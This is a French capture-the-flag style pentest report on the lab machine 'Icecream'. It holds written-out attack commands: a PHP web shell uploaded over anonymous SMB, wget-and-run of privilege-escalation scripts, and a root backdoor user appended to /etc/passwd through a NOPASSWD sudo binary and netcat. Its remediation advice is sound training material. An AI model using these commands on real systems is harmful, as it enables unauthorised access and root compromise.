   # 📌 Rapport de Vulnérabilité : Icecream

## 1. Introduction

### Objectif  
Identifier et exploiter les failles de sécurité de la machine cible **"Icecream"**.

### Informations sur les IP  
- **IP Cible :** 192.168.188.214  
- **IP Kali :** 192.168.188.128  

Après avoir installé **Icecream** et testé la communication entre les machines, nous pouvons commencer le pentest.

![image6](https://github.com/user-attachments/assets/9ace5f64-811d-46d2-91d4-72febc164dd2)

## 2. Découverte et Analyse Initiale des Services

### 2.1. Scan Nmap

#### Commandes exécutées :  
Définition de la variable IP cible et exécution d’un scan complet des ports, suivi d’un scan approfondi (`-sVC`) pour détecter les services et versions.

```bash
target=192.168.188.214  
nmap -T4 -p$(nmap -Pn -T4 -n -p- $target | grep 'tcp.*open' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) -Pn -n -sVC $target
```
![image22](https://github.com/user-attachments/assets/e734ee50-4961-4aca-9e03-bc7c6898ce2c)
![image17](https://github.com/user-attachments/assets/503917ee-c35a-4a19-8e35-8cdc01de8788)


### 2.2. Analyse des services ouverts  

| Port  | Service      | Version / Info                 |
|-------|------------|--------------------------------|
| 22    | SSH        | OpenSSH 9.2p1 (Debian 12)      |
| 90    | HTTP       | Nginx 1.22.1 (403 Forbidden)   |
| 139   | SMB        | Samba 4.6.2 (NetBIOS)          |
| 445   | SMB        | Samba 4.6.2                    |
| 9000  | HTTP       | Nginx Unity 1.33.0 (Unit Server) |

## 3. Potentielles Pistes d'Exploitation

### 3.1. Exploitation des Ports SMB  
Analyse des vulnérabilités potentielles des ports **139** & **445** (Samba 4.6.2).  
Après consultation de **SearchSploit** et **CVE Details**, aucune faille exploitable récente n'a été identifiée.

![image10](https://github.com/user-attachments/assets/42d9558e-304b-4ecb-b066-57725a8cab04)

#### Tests de connexion SMB  
Utilisation de `smbclient` pour tester l'accès aux partages.

```bash
smbclient -L //192.168.188.214 -N  
```

![image16](https://github.com/user-attachments/assets/c8d78cbc-5a76-46fb-83a8-afb3c3c30e1d)

Connexion au partage **"icecream"** :  

```bash
smbclient //192.168.188.214/icecream -N  
```

![image1](https://github.com/user-attachments/assets/b5c39a4a-6de5-40d2-bf67-71b3fcb81223)
![image9](https://github.com/user-attachments/assets/f50dd2e9-d504-4395-a02a-986c214d73b1)

📌 **Constat :**  
✅ Accès en écriture confirmé.  

## 4. Exploitation et Accès à la Machine

### 4.1. Mise en place d'un Web Shell  
Création et envoi d’un **Web Shell** pour exécuter des commandes à distance.

```bash
echo "<?php system(\$_GET['cmd']); ?>" > shell.php  
```

Envoi du Web Shell via **SMB** :  

```bash
smbclient //192.168.188.214/icecream -N  
put shell.php  
```

Exécution de commandes :  

```bash
curl "http://192.168.188.214/shell.php?cmd=id"  
```

## 5. Élévation de Privilèges

### 5.1. Analyse avec Linpeas et PSPY  
Téléchargement et exécution de **Linpeas** et **PSPY** pour identifier des vulnérabilités d’élévation de privilèges.

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh  
chmod +x linpeas.sh  
./linpeas.sh  
```

```bash
wget https://github.com/DominicBreuker/pspy/releases/latest/download/pspy64  
chmod +x pspy64  
./pspy64  
```

### 5.2. Exploitation de CVE-2021-3156  
Tentative d’exploitation de **CVE-2021-3156 (sudo heap overflow)** pour obtenir un shell root.  
❌ **Échec :** La version du système ne permet pas l’exploitation de cette faille.

### 5.3. Exploitation via ums2net  
L'exécutable `/usr/sbin/ums2net` est utilisable **sans mot de passe (NOPASSWD)**, ce qui permet de **modifier `/etc/passwd`** et d’ajouter un utilisateur root.

#### Modification de `/etc/passwd`  
```bash
echo 'aurelien:$6$IPVFVjVKK55o19kF$XqJHT3H5Qcmk96/iaLUfcC3UQPEYF0yFGzRtTinb/9NfQZIpWed9UfA6YBaEWhE5TRc1MLaXgLHWUtYI010Pj1:0:0:aurelien:/home/aurelien:/bin/bash' >> passwd  
nc -v 192.168.188.214 5000 < ./passwd  
sudo /usr/sbin/ums2net -c /tmp/config -d  
```

✅ **Accès root obtenu** via l’utilisateur **"aurelien"**.

## 6. Recommandations de Sécurité pour Corriger la Vulnérabilité ums2net

### 6.1. Révision des Permissions de Sudo  
Modifier le fichier `/etc/sudoers` pour supprimer **NOPASSWD** des commandes sensibles.

### 6.2. Sécurisation des Fichiers de Configuration  
- Restreindre les permissions de `/etc/passwd` :  
```bash
  chmod 644 /etc/passwd  
- Empêcher **ums2net** d’être exécuté en tant que root.
```

### 6.3. Mise à Jour et Patch du Système  
- Désinstaller ou mettre à jour **ums2net**.
- Vérifier les services SMB et SSH pour éviter les accès non autorisés.

## 7. Conclusion  
Nous avons réussi à :  
1. **Accéder au partage SMB** et identifier des fichiers exploitables.  
2. **Déployer un Web Shell** pour obtenir un accès shell distant.  
3. **Élever nos privilèges à root** en exploitant **ums2net**.

📌 **Actions correctives impératives** :  
- **Désactiver ou patcher ums2net**.  
- **Appliquer des restrictions sur SMB et SSH**.  
- **Surveiller les logs système pour détecter toute activité suspecte**.
